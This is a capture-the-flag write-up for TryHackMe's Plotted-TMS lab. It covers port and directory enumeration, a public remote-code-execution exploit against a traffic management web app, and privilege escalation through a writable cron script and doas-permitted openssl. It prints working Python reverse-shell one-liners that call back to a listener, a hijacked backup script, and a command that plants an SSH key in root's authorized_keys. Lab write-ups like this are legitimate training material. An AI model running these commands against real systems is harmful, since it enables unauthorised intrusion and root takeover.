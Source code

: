 ```yaml
---
title: "TryHackMe - Plotted-TMS"
author: Nasrallah
description: ""
date: 2022-11-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, cronjob, openssl]
img_path: /assets/img/tryhackme/plotted
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Plotted-TMS](https://tryhackme.com/room/plottedtms) from [TryHackMe](https://tryhackme.com). The target is running a web application vulnerable to remote code execution giving us the initial foothold. Looking through the system files, we find a cronjob running, so we exploit it to upgrade to use plot_admin. After that we find that we can run openssl as root so we use that to get root access.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.76.208
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a36a9cb11260b272130984cc3873444f (RSA)
|   256 b93f8400f4d1fdc8e78d98033874a14d (ECDSA)
|_  256 d08651606946b2e139439097a6af9693 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, ssh is running on port 22 as usual, an apache web server on port 80 and the same on port 445 which is weird because this port is usually for SMB.

### Web

Let's go to the web page on port 80.

![](1.png)

Got the default page of Apache2.

### Gobuster

Let's run a directory scan.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.76.208/ | tee scans/gobuster     
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.208/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/26 03:19:42 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.76.208/admin/]
/index.html           (Status: 200) [Size: 10918]
/passwd               (Status: 200) [Size: 25]
/server-status        (Status: 403) [Size: 277]
/shadow               (Status: 200) [Size: 25]
===============================================================

```

We some interesting directories, let's check them.

![](2.png)

The admin page contains a file named id_rsa, but that's has a base64 encoded string that says "Trust me it is not this easy..now get back to enumeration :D"

The same applies to the other directories.

Let's run another directory scan for port 445.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.76.208:445/ | tee scans/gobuster2
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.208:445/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/26 03:27:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/management           (Status: 301) [Size: 322] [--> http://10.10.76.208:445/management/]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Found a page called **/management**, let's check it.

![](3.png)

It's the default page of `Traffic Offense Management System`

## **Foothold**

Searching on google for this management system, i found it's vulnerable to Remote Code Execution, here is the [exploit](https://www.exploit-db.com/exploits/50221).

We run the exploit which uploads a shell and give us the ability to run commands.

![](4.png)

Couldn't execute command because of an error, so i copied the URL and used it in the browser.

![](5.png)

Now let's get a reverse shell. We can do that in two different ways, either we upload a [Pentest Monkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or we execute the following command after setting up the listener:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](6.png)

## **Privilege Escalation**

After some manual enumeration, we find a cronjob running as `plot_admin`.

```terminal
www-data@plotted:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   plot_admin /var/www/scripts/backup.sh

```

We can't modify the file, but the script is located in /var/www/scripts directory which we have full control of. So we can create another backup.sh file that would send us a reverse shell as plot_admin.

```bash
www-data@plotted:/var/www/scripts$ mv backup.sh backup.sh.bak
www-data@plotted:/var/www/scripts$ echo '#!/bin/bash' > backup.sh
www-data@plotted:/var/www/scripts$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"

```

![](7.png)

After this, i uploaded a copy of linpeas, run it and found the following:

![](8.png)

`doas` enables us to run commands as other users, and here we see we can run `openssl` as root.

If we check [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/#file-read), we see that we can read any file using this command `openssl enc -in {file}`. Let's specify the file we want to read which is /root/root.txt, and add `doas` at the beginning of the command.

![](9.png)

We can also write files, and to get a root shell, we can copy our public key to /root/.ssh/authorized_keys. To do that we can use the following command:

```bash
cat sirius.pub | doas openssl enc -out /root/.ssh/authorized_keys
```

Then we can ssh to the target as root without any password.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

